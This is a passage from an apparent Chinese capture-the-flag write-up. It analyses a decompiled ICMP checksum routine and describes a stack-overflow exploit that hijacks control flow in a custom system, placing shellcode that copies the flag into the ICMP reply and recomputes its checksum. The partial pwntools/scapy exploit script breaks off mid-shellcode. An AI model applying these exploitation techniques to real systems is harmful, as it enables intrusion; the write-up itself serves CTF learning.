 看起来就很正确，因为有取反操作，第一个参数是数据地址，第二个参数是长度：

```c
int __cdecl sub_1023E3(__int16 *a1, unsigned int a2)
{
  unsigned int v2; // ebx
  unsigned __int16 *v3; // eax
  __int16 v4; // si

  v2 = 0;
  while ( a2 > 1 )
  {
    v3 = (unsigned __int16 *)a1++;
    v2 += *v3;
    a2 -= 2;
  }
  if ( a2 )
  {
    v4 = *a1;
    v2 += (unsigned __int16)(v4 & sub_101A57(65280));
  }
  while ( HIWORD(v2) )
    v2 = (unsigned __int16)v2 + HIWORD(v2);
  return ~v2;
}
```

所以shellcode中拷贝flag到回包数据中之后，将校验和位置清空，然后调用sub_1023E3函数计算校验和并写回即可。

### 最终exp

最终exp如下，需要说明的是：

- shellcode放在了0x10c8e0，即sub_101F9F的第一个参数所指向的全局变量附近，最终控制流劫持返回到栈溢出sub_101F9F函数原本的返回地址0x10014B即可。

- 在sub_101F9F函数会根据v10拷贝两个字节以组装返回包，所以如果栈溢出时破坏了v10变量，则最终的ICMP又无法被路由了，所以这里我在栈溢出覆盖时没有破坏v10的值，因为系统没有什么随机化，v10原来是啥填上去就行。

- 在sub_101F9F的栈变量v9虽然会被栈溢出覆盖，但是其又会在运行的时候被重新赋值，最终整个栈上已经计算完ICMP的校验和（+8）的数据被当成返回数据包时的又被换了4个字节，即v9，最终导致导致ICMP校验和错误，无法被路由。所以直接使用栈溢出，即使覆盖的返回地址与真正返回地址相同，也并不能正常返回报文。即需要重新计算校验和，或者与v10处理相同，覆盖的v9与最终v9的值相同。

- 在清空与重写ICMP校验和时，注意长度为两字节，使用`mov [ebx], ax`等两字节的寄存器写法完成内存的写入，防止破坏周围内存。

```python
from scapy.all import *
from pwn import *
context(arch='x86')

# ----data----
# flag      addr 0x350000
# shellcode addr 0x10c8e0

# ----reply package----
# icmp_head addr 0x10c2a2
# checksum  addr 0x10c2a4
# flag back addr 0x10c370

# ----function----
# memcpy         addr 0x108AA9
# reply          addr 0x10014B
# calc_checksum  addr 0x1023E3

shellcode = asm('''
    // memcpy(0x10c370,0x350000,0x20)
    push 0x20
    push 0x350000
    push 0x10c370
```